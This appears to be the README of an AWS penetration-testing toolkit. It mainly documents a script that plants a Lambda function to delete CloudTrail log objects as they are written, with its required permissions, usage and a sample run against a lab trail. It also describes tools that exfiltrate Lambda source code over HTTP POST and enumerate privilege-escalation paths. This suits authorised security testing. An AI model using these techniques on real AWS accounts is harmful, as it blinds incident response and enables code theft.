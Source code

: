 
## AWS-related penetration testing scripts, tools and Cheatsheets

- **`disruptCloudTrailByS3Lambda.py`** - This script attempts to disrupt CloudTrail by planting a Lambda function that will delete every object created in S3 bucket bound to a trail. As soon as CloudTrail creates a new object in S3 bucket, Lambda will kick in and delete that object. No object, no logs. No logs, no Incident Response :-)

One will need to pass AWS credentials to this tool. Also, the account affected should have at least following permissions:
- `iam:CreateRole`
- `iam:CreatePolicy`
- `iam:AttachRolePolicy`
- `lambda:CreateFunction`
- `lambda:AddPermission`
- `s3:PutBucketNotification`

These are the changes to be introduced within a specified AWS account:
- IAM role will be created, by default with name: `cloudtrail_helper_role`
- IAM policy will be created, by default with name: `cloudtrail_helper_policy`
- Lambda function will be created, by default with name: `cloudtrail_helper_function`
- Put Event notification will be configured on affected CloudTrail S3 buckets.

This tool will fail upon first execution with the following exception:

```
[-] Could not create a Lambda function: An error occurred (InvalidParameterValueException) when calling the CreateFunction operation: The role defined for the function cannot be assumed by Lambda.
```

At the moment I did not find an explanation for that, but running the tool again with the same set of parameters - get the job done.

```
bash $ python3 disruptCloudTrailByS3Lambda.py --help

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

usage: disruptCloudTrailByS3Lambda.py [options] <region> [trail_name]

required arguments:
  region                AWS region to use.
  --access-key ACCESS_KEY
                        AWS Access Key ID
  --secret-key SECRET_KEY
                        AWS Access Key ID
  --token TOKEN         AWS temporary session token

optional arguments:
  trail_name            CloudTrail name that you want to disrupt. If not
                        specified, will disrupt every actively logging trail.
  --disrupt             By default, this tool will install Lambda that is only
                        logging that it could remove S3 objects. By using this
                        switch, there is going to be Lambda introduced that
                        actually deletes objects.
  --role-name ROLE_NAME
                        name for AWS Lambda role
  --policy-name POLICY_NAME
                        name for a policy for that Lambda role
  --function-name FUNCTION_NAME
                        name for AWS Lambda function


bash $ python3 disruptCloudTrailByS3Lambda.py --access-key ASIAXXXXXXXXXXXXXXXX --secret-key Gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa --token FQoGZX[...] us-west-2

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

[.] Will be working on Account ID: 712800000000
[.] Step 1: Determine trail to disrupt
[+] Trail cloudgoat_trail is actively logging (multi region? No).
[.] Trails intended to be disrupted:
	- cloudgoat_trail

[.] Step 2: Create a role to be assumed by planted Lambda
[-] Role with name: cloudtrail_helper_role already exists.
[.] Step 3: Create a policy for that role
[-] Policy with name: cloudtrail_helper_policy already exists.
[.] Step 4: Attach policy to the role
[.] Attaching policy (arn:aws:iam::712800000000:policy/cloudtrail_helper_policy) to the role cloudtrail_helper_role
[-] Policy is already attached.
[.] Step 5: Create Lambda function
[.] 	Using non-disruptive lambda.
[.] Creating a lambda function named: cloudtrail_helper_function on Role: arn:aws:iam::712800000000:role/cloudtrail_helper_role
[+] Function created.
[.] Step 6: Permit function to be invoked on all trails
[.] Adding invoke permission to func: cloudtrail_helper_function on S3 bucket: arn:aws:s3:::90112981864022885796153088027941100000000000000000000000
[.] Step 7: Configure trail bucket's put notification
[.] Putting a bucket notification configuration to 90112981864022885796153088027941100000000000000000000000, ARN: arn:aws:lambda:us-west-2:712800000000:function:cloudtrail_helper_function
[+] Installed CloudTrail's S3 bucket disruption Lambda.
```

Afterwards, one should see following logs in CloudWatch traces for planted Lambda function - if no `--disrupt` option was specified:

```
[*] Following S3 object could be removed: (Bucket=90112981864022885796153088027941100000000000000000000000, Key=cloudtrail/AWSLogs/712800000000/CloudTrail/us-west-2/2019/03/20/712800000000_CloudTrail_us-west-2_20190320T1000Z_oxxxxxxxxxxxxc.json.gz)
```

- **`evaluate-iam-role.sh`** - Enumerates attached IAM Role policies, goes through all of granted permissions and lists those that are known for Privilege Escalation risks. Based on [Rhino Security Labs work](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/). [gist](https://gist.github.com/mgeeky/14685d94af7848e64afefe6fd2341a18)

- **`exfiltrateLambdaTasksDirectory.py`** - Script that creates an in-memory ZIP file from the entire directory `$LAMBDA_TASK_ROOT` (typically `/var/task`) and sends it out in a form of HTTP(S) POST request, within an `exfil` parameter. To be used for exfiltrating AWS Lambda's entire source code.

- **`get-session-creds-in-config-format.sh`** - Calls `aws sts assume-role` using MFA token in order to then retrieve session credentials and reformat it into `~/.aws/credentials` file format. Having that it's easy to copy-and-paste that script's output into credentials file. Then tools such as _s3tk_ that are unable to process MFA tokens may just use preconfigured profile creds. 

- **`identifyS3Bucket.rb`** - This script attempts to identify passed name whether it resolves to a valid AWS S3 Bucket via different means. This script may come handy when revealing S3 buckets hidden behind HTTP proxies.

- **`pentest-ec2-instance`** - A set of utilities for quick starting, ssh-ing and stopping of a single temporary EC2 instance intended to be used for Web out-of-band tests (SSRF, reverse-shells, dns/http/other daemons).
